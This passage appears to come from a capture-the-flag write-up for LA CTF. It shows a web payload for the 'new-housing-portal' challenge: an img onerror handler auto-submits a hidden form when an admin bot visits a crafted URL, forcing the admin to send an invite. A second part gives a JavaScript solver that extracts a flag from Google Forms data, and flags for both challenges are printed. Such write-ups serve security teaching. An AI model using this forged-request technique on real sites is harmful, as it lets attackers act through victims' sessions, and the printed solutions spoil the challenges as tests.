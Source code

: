 ```html
<form name="invitefix" action="/finder" method="POST">
  <input type="hidden" name="username" value="USERNAME">
  <input type="submit" value="Invite">
</form>
<img src=x onerror="document.invitefix.submit()"/>
```

The form being redefined above allows it to access the form, and using the `<img src=x onerror="">` allows some slight delay before triggering, which seemed more consistent.

I send the following URL to the admin bot to trigger the search for my user and set the payload off.

`https://new-housing-portal.chall.lac.tf/finder/?q=USERNAME`

Once visited, we can see samy has visited and sent us an invite, how kind!

Flag: <mark>lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}</mark>

**Files:** [new-housing-portal.zip]()

## misc/one by one (193 solves)
> One..... by.......... one............... whew I'm tired, this form is waaaaaaay too long. Note: the flag does have random characters at the end - that is intentional.

This seems to be another Google Forms challenge like infinite loop, so I approach it the same way and look at the JS code. Looking at a bit of it, it seems like we can select letters in a correct order to construct our flag.

To crack the flag I looked at the basic patterns of the code, I noticed that some letters had 0 impact on the final result but some had all but 1 point to the same value, I selected all the ones that had values and the one odd value out to construct the flag. I copied the object into the same script and wrote the following Javascript.

```js
function removeItemAll(arr, value) {
    var i = 0;
    while (i < arr.length) {
        if (arr[i] === value) {
            arr.splice(i, 1);
        } else {
            ++i;
        }
    }
    return arr;
}

function mode(arr){
    return arr.sort((a,b) =>
          arr.filter(v => v===a).length
        - arr.filter(v => v===b).length
    ).pop();
}
flag=""
for (x in FB_PUBLIC_LOAD_DATA_[1][1]) {
    if (!FB_PUBLIC_LOAD_DATA_[1][1][x][1].includes('letter')) continue
    if (FB_PUBLIC_LOAD_DATA_[1][1][x][4][0][1][0][4] === 0) continue
    numbers = []
    for (y in FB_PUBLIC_LOAD_DATA_[1][1][x][4][0][1]) {
        numbers.push(FB_PUBLIC_LOAD_DATA_[1][1][x][4][0][1][y][2])
    }
    removeItemAll(numbers,mode(numbers))
    for (y in FB_PUBLIC_LOAD_DATA_[1][1][x][4][0][1]) {
        if(FB_PUBLIC_LOAD_DATA_[1][1][x][4][0][1][y][2] === numbers[0]) flag+=FB_PUBLIC_LOAD_DATA_[1][1][x][4][0][1][y][0]
    }
}
```